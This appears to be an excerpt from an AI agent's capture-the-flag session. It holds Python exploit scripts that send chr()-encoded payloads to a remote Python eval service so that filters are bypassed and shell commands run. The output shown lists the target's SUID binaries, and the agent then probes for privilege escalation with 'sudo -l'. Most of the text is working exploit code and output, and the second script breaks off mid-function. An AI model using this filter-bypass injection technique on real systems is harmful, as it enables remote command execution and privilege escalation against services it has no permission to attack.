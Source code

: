 ```bash
        print(f"[-] Connection timed out to {HOST}:{PORT}")
    except socket.error as e:
        print(f"[-] Socket error: {e}")
    except Exception as e:
        print(f"[-] An error occurred: {e}")

if __name__ == "__main__":
    main()
```
Response is juicy!!!
```bash
ubuntu@sandbox:~ $ cd /home/ubuntu && python3 /home/ubuntu/exploit_user.py
[*] Connecting to exp.cybergame.sk:7002
[*] Connected.
[*] Sending payload...
[*] Payload sent.
[*] Receiving response...
[*] Response received:
>>   1566413    640 -rwsr-xr-x   1 root     root       653888 Dec 19  2023 /usr/lib/openssh/ssh-keysign
  1552816     52 -rwsr-xr-x   1 root     root        52880 Mar 23  2023 /usr/bin/chsh
  1552810     64 -rwsr-xr-x   1 root     root        62672 Mar 23  2023 /usr/bin/chfn
  1552948     88 -rwsr-xr-x   1 root     root        88496 Mar 23  2023 /usr/bin/gpasswd
  1555727     68 -rwsr-xr-x   1 root     root        68248 Mar 23  2023 /usr/bin/passwd
  1558016     36 -rwsr-xr-x   1 root     root        35128 Mar 28  2024 /usr/bin/umount
  1557992     72 -rwsr-xr-x   1 root     root        72000 Mar 28  2024 /usr/bin/su
  1555258     48 -rwsr-xr-x   1 root     root        48896 Mar 23  2023 /usr/bin/newgrp
  1554627     60 -rwsr-xr-x   1 root     root        59704 Mar 28  2024 /usr/bin/mount
  1589119    276 -rwsr-xr-x   1 root     root       281624 Jun 27  2023 /usr/bin/sudo
256
```

Analyzing SUID binaries for potential privilege escalation vectors.
```bash
#!/usr/bin/env python3
import socket
import sys

HOST = "exp.cybergame.sk"
PORT = 7002

def build_payload(command):
    """Builds the payload using chr() to bypass filters."""
    import_key = "+".join([f"chr({ord(c)})" for c in "__import__"])
    os_module = "+".join([f"chr({ord(c)})" for c in "os"])
    system_func = "+".join([f"chr({ord(c)})" for c in "system"])
    cmd_str = "+".join([f"chr({ord(c)})" for c in command])
    payload = f"getattr(__builtins__.__dict__[{import_key}]({os_module}), {system_func})({cmd_str})"
    return payload

def main():
    # Check if sudo can be used without password
    command = "sudo -l"

    payload = build_payload(command)

    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            s.settimeout(10)
            print(f"[*] Connecting to {HOST}:{PORT}")
            s.connect((HOST, PORT))
            print("[*] Connected.")

```